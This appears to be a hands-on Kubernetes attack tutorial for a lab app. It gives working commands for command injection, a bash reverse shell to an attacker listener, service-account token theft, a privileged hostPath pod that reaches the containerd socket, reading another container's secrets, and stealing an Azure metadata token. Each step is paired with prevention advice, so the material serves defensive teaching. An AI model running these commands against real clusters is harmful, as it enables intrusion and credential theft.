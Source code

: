 # Hijack Kubernetes Hands-on

## Play with the sample app

The sample app "ping me" pings a destination provided via the input field. Try the folloing inputs:

```bash
127.0.0.1

127.0.0.1; echo "I was here"

; which bash
```

<details>
<summary>Details on how to input the snippets</summary>

1. Let's try to inject a command after the IP address: `127.0.0.1; echo "I was here"`. As you see in the responce it worked.
2. Now we try whether `bash` is available: `; which bash`. And it is! Looks like we could try to hijack the container.

</details>

<details>
<summary>How to prevent this attack</summary>

* Shift security left and enable [SAST scanning](https://owasp.org/www-community/Source_Code_Analysis_Tools)
* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)

</details>

## Hijack the container

We now inject into the container via a reverse shell. Try the following:

On your attacker machine:

```bash
sudo nc -lnvp 80
```

Input for the app (change your IP):

```bash
; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'
```

<details>
<summary>Details on how to hijack the container</summary>

1. We will open a connection on our attacker machine using netcat: `sudo nc -lnvp 80`
2. Now we inject the required command into our container. This allow us to connect a reverse shell to our open connection: `; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'`.
3. And finally, we have a reverse shell up and running. Try some commands like `ls`

</details>

<details>
<summary>How to prevent this attack</summary>

* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)
* Deny egress network access on a network level as well as using [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
* Detect untrusted process with container runtime security tools like [Falco](https://github.com/falcosecurity/falco)

</details>

## Get access to the Kubernetes API

Let's see if we can access the API Server. Execute the following snippets:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api

NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/

kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

<details>
<summary>Details on how to access the Kubernetes API server</summary>

Let's see if we can access the API Server.
```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api
```

It looks like we were able to authenticate and do have some access. Let's try whether we have access to see other pods in our namespace:

``` bash
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods
```

This looks good! Let's install `kubectl` for easier access:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Let's see what we are allowed to do:

```bash
kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Do not share service accounts between applications
* Do not enable higher access levels for the default service account (this app would not have needed it!)
* Review all third-party snippets before deploying them
* Use read-only filesystems
* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Things we already talked about
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack the Kubernetes Node

Let's try one more thing. Are we able to schedule a privileged pod and "talk" to containerd? Execute the following snippets:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF

kubectl exec -it -n default privileged-pod /bin/bash

apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list

```

<details>
<summary>Details on how to hijack the node</summary>

Let's try to schedule a priviledged pod and try to "talk" to containerd:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF
```

Then we need to attach to the pod:

```bash
kubectl exec -it -n default privileged-pod /bin/bash
```

Now we can try to install some basics as well as the containerd CLI and talk to the containerd socket:

```bash
apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Do not share service accounts
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Access secrets from another container

We will now try to retrieve secrets from a container we do not have access to (via Kubernetes):

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "13f21f8cb8c85084bc9a3ddf98ecae31de1e5255363bd3a9c9ed50528106676c" | awk '{print $1}')

ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

<details>
<summary>Details on how to access the secrets</summary>

We will use the containerd cli to access details of a container running on this nodes.

First we will retrieve the container ID:

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "13f21f8cb8c85084bc9a3ddf98ecae31de1e5255363bd3a9c9ed50528106676c" | awk '{print $1}')
```

And then request container runtime details like environemnt variables:
```bash
ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

We could now use the database connection secret to access the database.

</details>

<details>
<summary>How to prevent this attack</summary>

* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Limit egress access to other cloud resources
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack Cloud resources

We can also use the underlying cloud identity and try to escape even further. Execute the following snippet to get a valid Cloud provider token:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)
```

<details>
<summary>Details on how to retrieve a Cloud provider token</summary>

First of all we need to mount the local node filesystem to access underlying identity id:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp
```

We now can retrieve the used Cloud identity and request a valid token using the Cloud metadata service:

```bash
IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny access to the Cloud provider metadata service using Network Policies (all Cloud providers!)
* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
